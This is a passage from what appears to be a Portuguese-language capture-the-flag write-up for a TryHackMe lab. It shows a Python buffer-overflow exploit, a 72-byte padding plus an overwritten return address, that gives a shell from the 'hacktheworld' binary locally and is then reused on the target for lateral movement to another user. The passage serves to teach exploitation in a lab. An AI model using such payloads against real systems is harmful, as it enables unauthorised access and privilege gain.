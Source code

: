 ```bash
┌──(hastur㉿hastur)-[~/Desktop]
└─$ cat xpl.py 
#!/usr/bin/python

import struct

payload = "A" * 72
payload += struct.pack("<Q", 0x0000000000400657)

print payload
```
Vamos testar localmente nosso script.

```bash
┌──(hastur㉿hastur)-[~/Desktop]
└─$ (python xpl.py ; cat) | ./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
whoami
hastur
id
uid=1000(hastur) gid=1000(hastur) groups=1000(hastur),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),120(bluetooth),122(wireshark),135(scanner),145(kaboxer)

```

E conseguimos o shell local com o script!!

Agora precisamos replicar o script na máquina alvo.

```bash
magna@anonymous-playground:~$ cat xpl.py 
#!/usr/bin/python

import struct

payload = "A" * 72
payload += struct.pack("<Q", 0x0000000000400657)

print payload
```
Ao executar nosso script, conseguimos um movimento lateral para o usuário `spooky`.

<img src="/img/thm/thm-anonymousplayground-13.png">

